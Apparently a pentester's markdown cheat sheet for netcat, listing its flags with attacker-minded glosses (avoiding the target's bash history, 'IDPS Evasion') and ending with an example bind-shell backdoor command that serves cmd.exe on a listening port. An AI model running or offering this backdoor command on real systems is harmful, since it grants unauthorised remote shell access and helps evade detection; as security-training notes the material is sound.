 # NETCAT 

### Commands:

#### -c, --sh-exec COMMAND = Executes the given command via /bin/sh (Doesn't write to bash history file of target)

#### -l = Listening mode

#### -p NUMBER = Port number to listen

#### -4, -6 = IPv4/IPv6 only (IDPS Evasion)

#### -m,max-conns NUMBER = Maximum NUMBER simultaneous connections (Tag to 1 to connect only you!)

#### -o --output = Dump session data to a file

#### -u = Uses UDP

#### -v = Verbosity level (Up to 3 times -vvv)

#### -n = No dns

#### -t = Telnet answer

#### -s = Source address to use

#### -k = Accept multiple connections in listen mode 

#### -e COMMAND = Execute the given command

### Example backdoor command:

### nc -lkp PORT -e "cmd.exe"
